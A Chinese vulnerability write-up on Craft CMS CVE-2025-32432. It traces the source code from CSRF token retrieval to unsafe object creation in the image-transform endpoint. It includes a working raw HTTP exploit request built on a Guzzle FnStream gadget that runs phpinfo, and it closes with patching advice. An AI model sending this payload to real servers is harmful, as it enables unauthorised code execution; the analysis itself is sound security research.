







# Craft CMS CVE-2025-32432 (深入浅出)-先知社区

> **来源**: https://xz.aliyun.com/news/18672  
> **文章ID**: 18672

---

### 前言

Craft 是一个灵活、用户友好的 CMS，用于在网络及其他领域创建自定义数字体验。

github地址：<https://github.com/craftcms/cms>

#### 影响版本

* 3.0.0-RC1至<3.9.15
* 4.0.0-RC1至<4.14.15
* 5.0.0-RC1至<5.6.17

#### 漏洞原理

Craft CMS 在处理 图片转换（Asset Transform） 功能的请求时，存在不安全的对象反序列化逻辑。攻击者无需认证->需要一个有效资源ID，即可通过构造恶意请求，在目标服务器中触发 PHP 对象反序列化，最终导致远程代码执行（RCE）。

#### 学习前提

Twig模版，它是基于PHP的模版引擎，支持Html,htm,twig,通过Composer安装，核心是{{ }}输出变量与表达式、控制逻辑标签（如if判断和for循环）、{# #}注释文本，支持extends/block实现模板继承，其中有提供autoescape标签和e过滤器实现HTML自动转义防止XSS攻击.....等等（剩下百度百科看吧）

#### 整体介绍

Craft 的入口是web/index.php，在安装的时候就会知道

其中配置这部分的东西是在config中配置

admin是进入控制面板模式也就是进入到/vendor/craftcms/cms/src/controllers/文件当中

然后比如映射为admin/dashboard->解析成controller = dashboard → DashboardController

action对应的就是方法

剩余的后面会继续说

#### 重点

CraftCMS 会校验请求头 X-CSRF-Token 是否与当前用户会话绑定的 session 一致。如果 Token 与当前 session 不匹配（例如使用 Burp 重放请求或会话过期），CSRF 校验会失败，返回 400 报错。

在 Yii2 中，可以通过 as <name> => BehaviorClass 的语法动态给对象挂载一个行为（behavior），其中 <name> 是该行为的标识名。挂载后的行为可以为对象添加方法或属性，方便访问或区分多个行为。

### 漏洞过程

**GET /index.php?p=admin/dashboard** → 提取 CSRF token

**POST /index.php?p=admin/actions/assets/generate-transform** 携带X-CSRF-Token和JSON 数据包

craft 是通过前端控制器所有的请求都会经过它，然后由路由进行分发，由Craft 控制器+模版 处理

其中Yii2是一个PHP框架主要是负责路由分发的

#### 获取CSRF\_TOKEN

根据路径对第一个admin/dashboard

继承顺序->Controllers/DashboardController->web/Controller->yii2/web/Controller->yii2/base/Controller

```
//Controllers/DashboardController:
public function beforeAction($action): bool
{
    if (!parent::beforeAction($action)) {
        return false;
    }

    $this->requireCpRequest();
    return true;
}
//先去调用父类进行前置检查,用于判断是否执行action

//web/Controller
    public function beforeAction($action): bool
    {
        // Don't enable CSRF validation for Live Preview requests
        if ($this->request->getIsLivePreview()) {
            $this->enableCsrfValidation = false;
        }

        if (!beforeAction($action)) {
            return false;
        }

        $this->_enforceAllowAnonymous($action);

        return true;
    }
//到这一层了，就是对它检查是否是实时预览，但一般实时预览使用的是iframe前端编辑预览，这个时候就会关闭CSRF
//往下走到parent::beforeAction又会去调父类的CSRF验证，事件触发,但是在下面_enforceAllowAnonymous开始检查的是匿名和未登录用户的检查

//_enforceAllowAnonymous方法
private function _enforceAllowAnonymous(Action $action): void
    {
        $isCpRequest = $this->request->getIsCpRequest();//->判断是否是来自/admin/面板的请求，因为分为控制面板和前端网站请求

        // If a valid site token was passed, grant them access
        if (!$isCpRequest && $this->request->hasValidSiteToken()) {
            return;
        }
        //这部分不是重点，这是对前端非控制面板请求的检验.....这部分主要是对权限的验证

        $isLive = Craft::$app->getIsLive();
        $test = $isLive ? self::ALLOW_ANONYMOUS_LIVE : self::ALLOW_ANONYMOUS_OFFLINE;

        if (is_int($this->allowAnonymous)) {
            $allowAnonymous = $this->allowAnonymous;
        } else {
            $allowAnonymous = $this->allowAnonymous[$action->id] ?? self::ALLOW_ANONYMOUS_NEVER;
        }

        if (!($test & $allowAnonymous)) {
            // If this is a control panel request, make sure they have access to the control panel
            if ($isCpRequest) {
                $this->requireLogin();//-------------------------------------------检查到你没登录，就会让你回去login，下面就是403和503部分的
                $this->requirePermission('accessCp');
            } elseif (Craft::$app->getUser()->getIsGuest()) {
                if ($isLive) {
                    throw new ForbiddenHttpException();
                } else {
                    $retryDuration = Craft::$app->getProjectConfig()->get('system.retryDuration');
                    if ($retryDuration) {
                        $this->response->getHeaders()->setDefault('Retry-After', $retryDuration);
                    }
                    throw new ServiceUnavailableHttpException();
                }
            }
            //下面部分就是系统离线部分的了，没啥参考的
            // If the system is offline, make sure they have permission to access the control panel/site
            if (!$isLive) {
                $permission = $this->request->getIsCpRequest() ? 'accessCpWhenSystemIsOff' : 'accessSiteWhenSystemIsOff';
                if (!Craft::$app->getUser()->checkPermission($permission)) {
                    $error = $this->request->getIsCpRequest()
                        ? Craft::t('app', 'Your account doesn’t have permission to access the control panel when the system is offline.')
                        : Craft::t('app', 'Your account doesn’t have permission to access the site when the system is offline.');
                    throw new ServiceUnavailableHttpException($error);
                }
            }
        }
    }
```

web/Controller部分有兴趣的可以去看yii框架

Yii2 的 controller 和 request 处理逻辑->reforestation()` 会在每次动作执行前调用 -> \_enforceAllowAnonymous判断是否有权限访问控制面板或者action，未登录，框架会返回 302 重定向到登录页，登录页由框架生成 CSRF token。

修复这部分方案也很简单

```
public function beforeAction($action)
{
    if ($action->id === 'submit' && Craft::$app->user->isGuest) {
        $this->enableCsrfValidation = false;
    }

    return parent::beforeAction($action);
}
//禁用了csrf，但过于严格了，可能造成某些功能不正常使用
```

##### 请求包验证

首先是发起/index.php?p=admin/dashboard请求->

```
GET /index.php?p=admin/dashboard HTTP/1.1
Host: host:port
Accept-Encoding: identity
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36


//返回302进行跳转
HTTP/1.1 302 Found
Server: nginx/1.15.11
Date: Wed, 20 Aug 2025 03:12:21 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: CraftSessionId=6c59e184858a430be7a4baf61c7773e6; path=/; HttpOnly
Expires: 0
Pragma: no-cache
Cache-Control: no-cache, no-store, must-revalidate
X-Robots-Tag: none
Content-Security-Policy: frame-ancestors 'self'
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-Powered-By: Craft CMS
Location: http://host:port/admin/login

//第二个跳转的时候会携带一个Craft-id
GET /admin/login HTTP/1.1
Host: 192.168.137.244
Accept-Encoding: identity
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Cookie: CraftSessionId=6c59e184858a430be7a4baf61c7773e6
```



这边获取到的是没登录的前端，前面的数据不用看，直接找到这部分

```
<form id="x" method="post" accept-charset="UTF-8">
        <input type="hidden" name="CRAFT_CSRF_TOKEN" value="ASEZcnX8YyzuKP0sxLSq1Chu_fMutG-Kr7uaWILYpONXccSyM1H8pHFbQRtFjwQdhGCJaY6EzIFpPYeGZe0MzsfP_mzWiPfREi6Fx18ays4=">
    </form>
```

这部分属于前端的请求，会返回一个csrf但对应的是前面重点说的sessionid

这边获取到的信息是：

ASEZcnX8YyzuKP0sxLSq1Chu\_fMutG-Kr7uaWILYpONXccSyM1H8pHFbQRtFjwQdhGCJaY6EzIFpPYeGZe0MzsfP\_mzWiPfREi6Fx18ays4=

CraftSessionId=6c59e184858a430be7a4baf61c7773e6

这两个很重要后面部分会提到在获取到这两个部分后，我们开始下一步操作了

#### 构造反序列化，远程命令执行

补充一下ImageTransform.php



根据前面所说的，我们去找到对应的代码部分

/assets/generate-transform->cms/src/controllers/AssetsController.php

```
/**
     * Generates a transform.
     *
     * @param int|null $transformId
     * @return Response
     * @throws NotFoundHttpException if the transform can't be found
     * @throws ServerErrorHttpException if the transform can't be generated
     */
    public function actionGenerateTransform(?int $transformId = null): Response
    {
        try {
            // If a transform ID was not passed in, see if a file ID and handle were.
            //传入$transformId参数，会走第一个请求，但我们不利用，因为他是从已创建过的地方获取。
            if ($transformId) {
                $transformer = Craft::createObject(ImageTransformer::class);
                $transformIndexModel = $transformer->getTransformIndexModelById($transformId);
                $assetId = $transformIndexModel?->assetId;
                $transform = $transformIndexModel?->getTransform();
            } else {
                //没有传递$transformId参数胡会走第二个请求，
                //构造开始----------------------------------------------------------------------重点
                //这边要获取几个参数assetId,handle,类型没确认，所以可能是数组，字符串
                $assetId = $this->request->getRequiredBodyParam('assetId');
                $handle = $this->request->getRequiredBodyParam('handle');
                $transform = ImageTransforms::normalizeTransform($handle);//---->>这边是不管是什么都会把handle给转换成AssetTransform->看下面的代码块
                
                //关于AssetTransform是一个模型对象，前端的图片展示那种，有长宽高，   
                $transformer = $transform?->getImageTransformer();
            }
            //这边是有异常处理的，如果上面的不对情况下都会去触发下面的异常抛出
        } catch (\Exception $exception) {
            Craft::$app->getErrorHandler()->logException($exception);
            throw new ServerErrorHttpException('Image transform cannot be created.', 0, $exception);
        }

        if (!$transform || !$transformer) {
            throw new NotFoundHttpException();
        }

        $asset = Asset::findOne(['id' => $assetId]);

        if (!$asset) {
            throw new NotFoundHttpException();
        }

        $url = $transformer->getTransformUrl($asset, $transform, true);

        if ($this->request->getAcceptsJson()) {
            return $this->asJson(['url' => $url]);
        }

        return $this->redirect($url);
    }
```

```
public static function normalizeTransform(mixed $transform): ?ImageTransform
    {
        if (!$transform) {
            return null;
        }

        if ($transform instanceof ImageTransform) {
            return $transform;
        }

        if (is_object($transform)) {
            $transform = ArrayHelper::toArray($transform);
        }
    
    //重点直接看这部分，如果我们传递进来的是数组情况，它就会去调用，createObject

        if (is_array($transform)) {
            if (!empty($transform['width']) && !is_numeric($transform['width'])) {
                Craft::warning("Invalid transform width: {$transform['width']}", __METHOD__);
                $transform['width'] = null;
            }

            if (!empty($transform['height']) && !is_numeric($transform['height'])) {
                Craft::warning("Invalid transform height: {$transform['height']}", __METHOD__);
                $transform['height'] = null;
            }

            if (!empty($transform['fill'])) {
                $normalizedValue = ColorValidator::normalizeColor($transform['fill']);
                if ((new ColorValidator())->validate($normalizedValue)) {
                    $transform['fill'] = $normalizedValue;
                } else {
                    Craft::warning("Invalid transform fill: {$transform['fill']}", __METHOD__);
                    $transform['fill'] = null;
                }
            }

            if (array_key_exists('transform', $transform)) {
                $baseTransform = self::normalizeTransform(ArrayHelper::remove($transform, 'transform'));
                return self::extendTransform($baseTransform, $transform);
            }

            return Craft::createObject([
                'class' => ImageTransform::class,
                ...$transform,
            ]);
            //看到这里就先暂时结束
            //传递进来的$transform由我们控制，允许用户传入数组直接生成对象,as xxx代表行为，前面说了，所以我们这后面有个数组的值要是继承于行为Behavior
        }

        if (is_string($transform)) {
            if (preg_match(self::TRANSFORM_STRING_PATTERN, $transform)) {
                return self::createTransformFromString($transform);
            }

            $transform = StringHelper::removeLeft($transform, '_');
            if (($transformModel = Craft::$app->getImageTransforms()->getTransformByHandle($transform)) === null) {
                throw new ImageTransformException(Craft::t('app', 'Invalid transform handle: {handle}', ['handle' => $transform]));
            }

            return $transformModel;
        }

        return null;
    }
```

接上面Craft::createObject部分-->BaseYii.php （省略找的BaseYii部分，前面的都是代理的，所以就不看了），第二部分代码是行为部分的

```
public static function createObject($type, array $params = [])
    {
        if (is_string($type)) {
            return static::$container->get($type, $params);
        }

        if (is_callable($type, true)) {
            return static::$container->invoke($type, $params);
        }

        if (!is_array($type)) {
            throw new InvalidConfigException('Unsupported configuration type: ' . gettype($type));
        }

        if (isset($type['__class'])) {
            $class = $type['__class'];
            unset($type['__class'], $type['class']);
            return static::$container->get($class, $params, $type);
        }

        if (isset($type['class'])) {
            $class = $type['class'];
            unset($type['class']);
            return static::$container->get($class, $params, $type);
        }

        throw new InvalidConfigException('Object configuration must be an array containing a "class" or "__class" element.');
    }
//优先找_class，再找class,然后给依赖注入
```

FieldLayoutBehavior(行为),其他的也可以试试，如果可以留着下期来说



class FieldLayoutBehavior extends Behavior重点是继承于Behavior

FieldLayoutBehavior 是一个桥梁，并不存在执行的能力

FnStream 的 *\_destruct() 会调用 $this->*fn\_close()

意思是只要反序列化结束，脚本结束都会去调用fn\_close，原本FnStream目的是进行扩展，留了一个位置



这边使用你传递进来的$methods，然后进行遍历，给每个callable都套上一层，我们传递进来一个\_fn\_close和要执行的命令



解析成$obj->\_fn\_close = 'phpinfo';最后就会去调用成这个函数名

#### 最终截图



#### RAW包

```
POST /index.php?p=admin/actions/assets/generate-transform HTTP/1.1
Host: host:port
Accept-Encoding: identity
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Content-Type: application/json
X-CSRF-Token: ASEZcnX8YyzuKP0sxLSq1Chu_fMutG-Kr7uaWILYpONXccSyM1H8pHFbQRtFjwQdhGCJaY6EzIFpPYeGZe0MzsfP_mzWiPfREi6Fx18ays4=
Cookie: CraftSessionId=6c59e184858a430be7a4baf61c7773e6; CRAFT_CSRF_TOKEN=33bf0bf4ae2c9efb87c5dbf81ac2dfaeeed869f9218be1c661f017415d3bb45da%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22pzXi0sg1jHtEJ0fUASzuKYcDhtd4TPS2E_AulK6j%22%3B%7D
Content-Length: 210

{"assetId": 11, "handle": {"width": 123, "height": 123, "as session": {"class": "craft\behaviors\FieldLayoutBehavior", "__class": "GuzzleHttp\Psr7\FnStream", "__construct()": [[]], "_fn_close": "phpinfo"}}}
```

官网采取修复的是增加一个检索的



### 修复方案

* 升级 Craft CMS 至 **3.9.15、4.14.15 或 5.6.17** 及以上版本。
* 临时缓解措施：在防火墙或反向代理层面限制访问 **/index.php?p=admin/actions/assets/generate-transform** 路径。
* 建议对服务器进行全面安全加固，包括文件完整性检查和日志审计，以防止已有入侵。

### 总结

其他的链路我还在尝试，但由于php高版本问题.....有些小细节你们可以去看看，会发现这个漏洞的惊喜。
